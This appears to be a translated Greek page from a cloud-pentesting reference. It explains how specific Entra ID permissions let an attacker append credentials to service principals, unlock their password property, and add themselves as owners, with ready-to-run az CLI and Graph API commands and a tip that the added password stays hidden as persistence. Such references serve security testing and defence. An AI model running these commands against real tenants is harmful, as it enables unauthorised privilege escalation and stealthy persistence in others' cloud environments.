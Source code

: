 Αυτό επιτρέπει σε έναν επιτιθέμενο να προσθέσει διαπιστευτήρια σε υπάρχοντες service principals. Εάν ο service principal έχει ανυψωμένα δικαιώματα, ο επιτιθέμενος μπορεί να αναλάβει αυτά τα δικαιώματα.
```bash
az ad sp credential reset --id <sp-id> --append
```
> [!CAUTION]
> Ο νέος κωδικός πρόσβασης που δημιουργείται δεν θα εμφανίζεται στην κονσόλα ιστού, οπότε αυτό θα μπορούσε να είναι ένας κρυφός τρόπος για να διατηρήσετε την επιμονή σε έναν υπηρεσιακό κύριο.\
> Από το API μπορούν να βρεθούν με: `az ad sp list --query '[?length(keyCredentials) > 0 || length(passwordCredentials) > 0].[displayName, appId, keyCredentials, passwordCredentials]' -o json`

Αν λάβετε το σφάλμα `"code":"CannotUpdateLockedServicePrincipalProperty","message":"Property passwordCredentials is invalid."` είναι επειδή **δεν είναι δυνατή η τροποποίηση της ιδιότητας passwordCredentials** του SP και πρώτα πρέπει να το ξεκλειδώσετε. Για αυτό χρειάζεστε μια άδεια (`microsoft.directory/applications/allProperties/update`) που σας επιτρέπει να εκτελέσετε:
```bash
az rest --method PATCH --url https://graph.microsoft.com/v1.0/applications/<sp-object-id> --body '{"servicePrincipalLockConfiguration": null}'
```
### `microsoft.directory/servicePrincipals/synchronizationCredentials/manage`

Αυτό επιτρέπει σε έναν επιτιθέμενο να προσθέσει διαπιστευτήρια σε υπάρχοντες υπηρεσιακούς κύριους. Εάν ο υπηρεσιακός κύριος έχει ανυψωμένα δικαιώματα, ο επιτιθέμενος μπορεί να αναλάβει αυτά τα δικαιώματα.
```bash
az ad sp credential reset --id <sp-id> --append
```
### `microsoft.directory/servicePrincipals/owners/update`

Παρόμοια με τις εφαρμογές, αυτή η άδεια επιτρέπει την προσθήκη περισσότερων ιδιοκτητών σε ένα service principal. Η κατοχή ενός service principal επιτρέπει τον έλεγχο των διαπιστευτηρίων και των αδειών του.
```bash
# Add new owner
spId="<spId>"
userId="<userId>"
az rest --method POST \
--uri "https://graph.microsoft.com/v1.0/servicePrincipals/$spId/owners/\$ref" \
--headers "Content-Type=application/json" \
--body "{
\"@odata.id\": \"https://graph.microsoft.com/v1.0/directoryObjects/$userId\"
}"

az ad sp credential reset --id <sp-id> --append

# You can check the owners with
az ad sp owner list --id <spId>
```
> [!CAUTION]
> Μετά την προσθήκη ενός νέου ιδιοκτήτη, προσπάθησα να τον αφαιρέσω αλλά η API απάντησε ότι η μέθοδος DELETE δεν υποστηρίζεται, ακόμα και αν είναι η μέθοδος που πρέπει να χρησιμοποιήσεις για να διαγράψεις τον ιδιοκτήτη. Έτσι, **δεν μπορείς να αφαιρέσεις ιδιοκτήτες σήμερα**.
